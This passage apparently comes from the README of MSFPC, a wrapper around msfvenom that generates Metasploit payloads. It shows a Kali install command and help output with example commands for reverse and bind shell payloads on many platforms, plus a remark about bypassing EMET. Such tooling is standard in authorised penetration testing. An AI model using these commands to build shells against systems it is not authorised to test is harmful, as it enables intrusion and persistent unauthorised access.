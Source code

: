 ### Kali-Linux

MSFPC is already [packaged](https://pkg.kali.org/pkg/msfpc) in [Kali Rolling](https://www.kali.org/), so all you have to-do is:

```bash
root@kali:~# apt install -y msfpc
```



- - -


## Help

```
$ bash msfpc.sh -h -v
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)

 msfpc.sh <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
   Example: msfpc.sh windows 192.168.1.10        # Windows & manual IP.
            msfpc.sh elf bind eth0 4444          # Linux, eth0's IP & manual port.
            msfpc.sh stageless cmd py https      # Python, stageless command prompt.
            msfpc.sh verbose loop eth1           # A payload for every type, using eth1's IP.
            msfpc.sh msf batch wan               # All possible Meterpreter payloads, using WAN IP.
            msfpc.sh help verbose                # Help screen, with even more information.

 <TYPE>:
   + APK
   + ASP
   + ASPX
   + Bash [.sh]
   + Java [.jsp]
   + Linux [.elf]
   + OSX [.macho]
   + Perl [.pl]
   + PHP
   + Powershell [.ps1]
   + Python [.py]
   + Tomcat [.war]
   + Windows [.exe // .dll]

 Rather than putting <DOMAIN/IP>, you can do a interface and MSFPC will detect that IP address.
 Missing <DOMAIN/IP> will default to the IP menu.

 Missing <PORT> will default to 443.

 <CMD> is a standard/native command prompt/terminal to interactive with.
 <MSF> is a custom cross platform shell, gaining the full power of Metasploit.
 Missing <CMD/MSF> will default to <MSF> where possible.
   Note: Metasploit doesn't (yet!) support <CMD/MSF> for every <TYPE> format.
 <CMD> payloads are generally smaller than <MSF> and easier to bypass EMET. Limit Metasploit post modules/scripts support.
 <MSF> payloads are generally much larger than <CMD>, as it comes with more features.

 <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 Missing <BIND/REVERSE> will default to <REVERSE>.
 <BIND> allows for the attacker to connect whenever they wish. <REVERSE> needs to the target to be repeatedly connecting back to permanent maintain access.

 <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
```